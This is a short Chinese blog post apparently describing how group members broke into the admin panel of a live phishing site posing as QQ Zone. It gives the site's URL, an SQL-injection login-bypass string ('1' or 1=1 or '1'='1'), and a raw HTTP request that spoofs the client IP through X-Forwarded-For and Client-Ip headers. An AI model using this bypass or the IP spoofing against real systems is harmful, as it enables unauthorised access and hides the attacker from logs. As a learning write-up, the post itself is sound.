


# 一次后台登陆实验

看着比赛群里大佬在搞一些钓鱼网站，跟着混一混，涨一涨姿势。

## 钓鱼网站后台
http://qznoe.qq.com.xklove.xyz/admin/login.php

初始的域名就是钓鱼的界面

## 师傅们的方法
打开网站后台

其实很简单，直接用万能密码

	1' or 1=1 or '1'='1
直接搞定

## 伪造ip的事情
之后师傅们把原来网站上非法窃取的用户数据全部删除后，就成了兄弟们的练习靶场，开始互相比，谁的数据更骚。

这里我发现师傅门都是伪造的ip地址，于是我也请教了一波。
### 两种方法， X-Forward-For，或者Client-Ip。
之前做过题目，用的是 X-Forward-For，结果这一次服务端没有用相应的函数，直接将我的ip暴漏在数据库里。多亏好心的师傅把我的数据删除了。其实Client-Ip跟xff用法一样，区别是服务端用什么来获取。

最后附上伪造ip的数据包。

	POST /2017.php HTTP/1.1
	Host: qznoe.qq.com.xklove.xyz
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
	 X-Forwarded-For:lalala
	Client-Ip:xj cxk
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Accept-Encoding: gzip, deflate
	Referer: http://qznoe.qq.com.xklove.xyz/
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 24
	Connection: close
	Cookie: PHPSESSID=hjrusuvmjg60jsgb9dvegmfae0
	Upgrade-Insecure-Requests: 1
	
	u=xjtu cxk&p=cxk&submit=
